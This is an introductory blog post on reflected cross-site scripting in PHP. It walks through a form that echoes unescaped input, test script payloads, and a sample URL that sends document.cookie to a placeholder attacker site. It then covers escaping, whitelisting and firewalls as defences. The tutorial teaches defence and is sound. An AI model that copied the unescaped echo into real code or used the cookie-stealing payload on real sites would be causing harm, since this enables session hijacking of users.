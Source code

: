 ```yaml
---
title: "An Introduction to Cross-Site Scripting"
date: 2019-08-13
toc: true
toc_label: "Table of Contents"
categories:
  - blog
tags:
  - Web Security
  - Reflected XSS
  - PHP
---
```


So you've learned to create a PHP form recently and are very excited to set up a website with this form. You might think, "Ah, it's just a simple form, what could go wrong?". Well, you wouldn't be the first one to believe that. 

So let's take a look at a simple form that I have written.

```PHP
<!DOCTYPE html>
<html>
	<body>
		<h1>Simple PHP Form</h1>
		<form method="GET" action="<?php echo $_SERVER['PHP_SELF'];?>">
			Name: <input type="text" name="fname">
			<input type="submit">
		</form>
		<?php
			if ($_SERVER["REQUEST_METHOD"] == "GET") {
				echo "<p>Hi " . $_GET['fname'] . "!</p>";
			}
		?>
	</body>
</html>
```

Below we can see the form in the browser.

![Simple Form](../../assets/images/xss/1.png)
1.png

After typing my name in the input box, we get the following output.

![Input in Form](../../assets/images/xss/2.png)

Now you might be thinking that all is well and good, but what if someone submits the following text as input.

<b>Abhishek</b>

We get the following output.

![Form Output](../../assets/images/xss/3.png)

Wait, what? So if you pass in an HTML tag, the output is modified based on the tag. This is because when the PHP code echos the content of 'fname,' the resulting HTML sent back from the server looks like this. 

<p>Hi <b>Abhishek</b>!</p>

This can be verified by looking at the source.

![Page-Source-Inject-1](../../assets/images/xss/inject-1.png)

When the browser looks at the HTML, it sees the <b> tag and thinks that text in between is supposed to be rendered bold. The ability to pass in HTML code is known as HTML injection. This has a lot of implications (well other than being able to stylize your output). What if we want to pass in javascript code in the text field. Let's try the following input.

```JS
<script>alert("test");</script>
```
We get the following output.

![JS in Form](../../assets/images/xss/4.png)

So why did this happen? Well, this is because like in the previous example, we were able to inject code into the page returned by the server. This can be seen by looking at the source. 

![Form-Source-JS](../../assets/images/xss/5.png)

When the browser sees the <script> tag, it immediately runs the codes in between. What we saw above is called Cross-Site Scripting (XSS), more specifically Reflected XSS. It is reflected since the script passed in as input is bounced from the web server back to the user's browser. 

So what can we do with this? An alert box might not be harmful to the user, but what about the case where the user is logged in. If we pass the following as input

```JS
<script>alert(document.cookie)</script>
```

we get the following output.

![cookie](../../assets/images/xss/6.png)

Since the cookie is retrievable, the attacker can, once he gets the cookie, log in as the user and wreak havoc. One way the attacker can retrieve the cookies is by setting up a web server and sending the URL with the malicious code to a target. When the user clicks on the link, his/her browser will then send the cookies to the attacker's server. An example of such an URL is as.

```JS
http://vulnerable-website?param=<script>window.location="http://attackers-site.com/?cookie=" + document.cookie
</script>
```

The cookie is sent as a GET value which the attacker can then view on his/her server. 

//Say later blog
Another type of XSS which presents itself when user input is stored on the server and can be viewed is discussed below. Let's say you set up a message board where users can post messages. 
//-------------------------------------------

Well, how can we prevent the above attack? 
Some of the ways we can prevent XSS are:
Escaping all dynamic content, i.e., replace any characters that the browser will interpret with something called entities. For example, ```<``` is replaced with ```&lt;```. This means that when the page is returned back to the user, the browser sees ```&lt;```,  and renders it instead of interpreting it. Dynamic content is encoded by default by most modern frameworks. The following two functions can be used.

```
htmlspecialchars(): encodes special characters to HTML entities,
strip_tags(): removes the tags altogether and returns the inner text.
```

Another step that can be added is to use a whitelist. If a field can accept only a finite number of different inputs, we can check if the user-supplied data is in the whitelist. If the user passes in invalid data, we can simply reject it.

A more comprehensive solution is to use a Web Application Firewall (WAF). The WAF sits between the server and the client and filters out any message that contains malicious code. An open-source implementation of a WAF is provided by ModSecurity can be utilized (with care!).

Note that the above mechanisms serve as a base. With attackers coming up with new XSS attack vectors regularly, we must keep ourselves updated to stay safe. In a later post, I will talk about Stored XSS. 
